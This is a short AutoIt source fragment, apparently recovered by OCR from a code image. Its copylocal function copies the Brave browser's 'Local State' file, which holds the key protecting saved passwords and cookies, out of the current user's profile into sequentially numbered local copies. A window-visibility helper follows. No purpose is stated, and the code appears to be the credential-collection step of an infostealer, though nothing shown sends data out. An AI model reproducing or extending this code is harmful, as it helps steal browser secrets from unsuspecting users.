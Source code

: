 # copylocal
copylocal
Func copylocal()
	$u = @UserName
	If _filecountlines("listcopy.txt") = 0 Then
		FileWriteLine("listcopy.txt", 1)
		$file = 1
	Else
		$file = FileReadLine("listcopy.txt", -1) + 1
		FileWriteLine("listcopy.txt", $file)
	EndIf
	$zzz = "C:\Users\" & $u & "\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State"
	FileCopy($zzz, "Local\" & $file, 9)
EndFunc

Func isvisible($handle)
	If BitAND(WinGetState($handle), 2) Then
		Return 1
	Else
		Return 0
	EndIf
EndFunc
